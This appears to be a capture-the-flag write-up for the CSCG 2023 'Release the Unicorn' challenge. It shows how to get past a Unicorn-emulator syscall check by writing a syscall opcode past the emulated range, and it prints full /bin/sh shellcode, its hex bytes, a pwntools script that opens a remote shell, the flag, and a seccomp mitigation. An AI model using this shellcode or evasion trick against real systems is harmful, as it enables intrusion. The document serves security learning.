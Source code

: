 +++
title = 'CSCG 2023 - Release the Unicorn'
date = 2024-08-28T16:14:08+02:00

summary = 'Shellcode execution as a service. Can you outsmart the unicorn?'
tags = [ 'writeups' , 'pwn', 'cscg2023']
+++
# Release the unicorn
> **Category:** Misc
>
> **Difficulty:** Easy
>
> **Hint:** Shellcode execution as a service. Can you outsmart the unicorn?

## Overview
The user can provide. The challenge will first execute the shellcode using the *Unicorn* Emulator. If the emulator did not find any *syscall* or *sysenter*, my shellcode gets executed for real.

## Vulnerability
The emulator only executes until the ende of the code length. The vulnerable code is here:

```rust
42  // Run emulation
43  emu.emu_start(BASE_ADDR, (BASE_ADDR as usize + code.len()) as u64, 0, 0)?;
```
The first argument is the start address and the second is the end address. During real execution, instructions after the end addess will still be executed.

## Exploit
My exploit writes the opcode for `syscall` at the end of the shellcode. To get the address of `rip` we use the fact that a `call` instruction pushes `rip` on the stack:
```mips
jmp begin
next:
    pop rcx
    push rcx
    ret
begin:
call next
``` 
Now I have `rip` in `rcx`. After counting the bytes of the rest of the shellcode, I write `0f05` at the end of my shellcode, the opcode for `syscall`.

```mips
add rcx, 44
mov word ptr [rcx], 0x050f
```

Afterwards I just add a standard `execve("/bin/sh", 0, 0)` shellcode that can be created with `pwn.asm(pwn.shellcraft("/bin/sh"))`. I remove the `syscall` and assemble the shellcode.

## Code
The full shellcode is:
```mips
/* save rip */
jmp begin
next:
    pop rcx
    push rcx
    ret
begin:
call next
/* save syscall at the end */
add rcx, 44
mov word ptr [rcx], 0x050f
/* /bin/sh shellcode */
mov rax, 0x101010101010101
push rax
mov rax, 0x101010101010101 ^ 0x68732f6e69622f
xor [rsp], rax
mov rdi, rsp
xor edx, edx 
xor esi, esi 
push 59
pop rax
/* Tell unicorn to stop */
.byte 00
```

Using the following python script I'm able to get the flag:

```python
from pwn import *
# Shellcode
sc = bytes.fromhex("eb035951c3e8f8ffffff4883c12c66c7010f0548b801010101010101015048b82e63686f2e726901483104244889e731d231f66a3b5800")

URL = "d9fd0a8778664417ed81d7a4-release-the-unicorn.challenge.master.cscg.live"
io = remote(URL, 31337, ssl=True)
io.recvuntil(b'Bytecode')
io.send(sc)
io.interactive()
```
Using `find / -name *flag* 2>/dev/null`, I locate the flag in the `/home/ctf/` folder. 

**Flag** CSCG{w4sn7_s0_s3cur3_4f3r_al1_huh}


# Mitigation
A safer practice to disable syscalls would be the application of `seccomp`. `seccomp` is a method to disallow system calls entirely, which would be a lot harder to circumvent. An example mitigation would be:

```rust
extern crate seccomp;
use seccomp::{Context, Action, Rule};

fn main() {
    // Add User interaction here

    println!("[+] Starting execution...");
    // Disallowing all syscalls
    let mut ctx = Context::default(Action::Allow).unwrap();
    for syscall in 0..=10000 {
        let rule = Rule::new(syscall, None, Action::Kill);
        ctx.add_rule(rule).unwrap();
    }
    ctx.load().unwrap();
    
    
    execute_bytecode(&user_input)
}

```